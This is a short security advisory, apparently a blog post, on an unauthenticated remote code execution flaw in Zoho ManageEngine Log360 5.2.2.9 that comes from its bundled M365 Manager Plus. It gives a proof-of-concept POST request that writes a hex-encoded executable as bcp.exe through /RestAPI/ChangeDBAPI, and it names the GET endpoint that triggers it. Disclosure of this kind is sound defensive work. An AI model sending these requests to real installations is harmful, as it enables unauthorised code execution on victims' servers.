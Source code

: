 ```yaml
---
layout: post
title:  "Zoho ManageEngine Log360 - Unauthenticated Remote Code Execution"
tag: advisory
excerpt_separator: <!--more-->

---
```


A tale of an unauthenticated remote code execution vulnerability affecting  Zoho ManageEngine Log360.  
<!--more-->

### **Affected versions** 
5.2.2.9 

### **Technical Details:**

It was observed that the latest version of Log360 product comes bundled by default with an older version of M365 Manager plus product 4.3 which is affected by an authentication bypass on /RestAPI & BCP file overwrite issue. This can allow an unauthenticated attacker to execute code remotely on the affected installations of Log360 product.


### **Proof of Concept:**
Following request will create bcp.exe file in the bin directory of M365 Manager plus installation.

```
POST /RestAPI/ChangeDBAPI?operation=writeBCP&bcpexe=4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000800000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20&bcprll=61616161616161 HTTP/1.1
Host: o365.local:8365
Accept-Encoding: gzip, deflate
Accept: /
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```
Which can be triggered by sending a GET request to /RestAPI/ChangeDBAPI?operation=checkBCP endpoint.

### **Solution:**
It is recommended to package Log360 with the latest version of M365 Manager plus application.